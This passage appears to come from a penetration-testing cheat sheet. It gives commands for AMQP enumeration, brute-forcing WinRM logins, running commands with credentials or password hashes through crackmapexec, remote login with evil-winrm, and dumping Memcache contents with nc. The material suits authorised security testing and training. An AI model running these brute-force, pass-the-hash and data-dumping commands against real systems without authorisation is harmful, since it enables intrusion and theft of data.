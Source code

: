 ## 🔻Port 5672 - AMQP

#### Enumeration using nmap
```
nmap -sV -Pn -n -T4 -p 5672 --script amqp-info 10.0.0.1
```

#### Enumeration script
```
import amqp

conn = amqp.connection.Connection(host="10.0.0.1", port=5672, virtual_host="/")
conn.connect()
for k,v in conn.server_properties.items():
    print(k,v)
```

## 🔻Port 5985, 5986

Details : https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm

#### ➤ Brute force 
```
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Check a pair of credentials (Password) and execute a command
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"

# Check a pair of credentials (Hash) and execute a PS command
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
```

#### ➤ login remotely over WinRM (using TGT ticket as example)

https://github.com/Hackplayers/evil-winrm

```
ruby evil-winrm.rb -i <IP> -u <USERNAME> -p <PASSWORD>
OR
gem evil-winrm
evil-winrm -i <IP> -u <USERNAME> -p <PASSWORD>
```

## 🔻Port 11211 - Memcache

#### ➤ Nmap enumeration
```
nmap -n -sV --script memcached-info -p 11211 10.0.0.1
```

#### ➤ Manual enumeration
```
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info
```
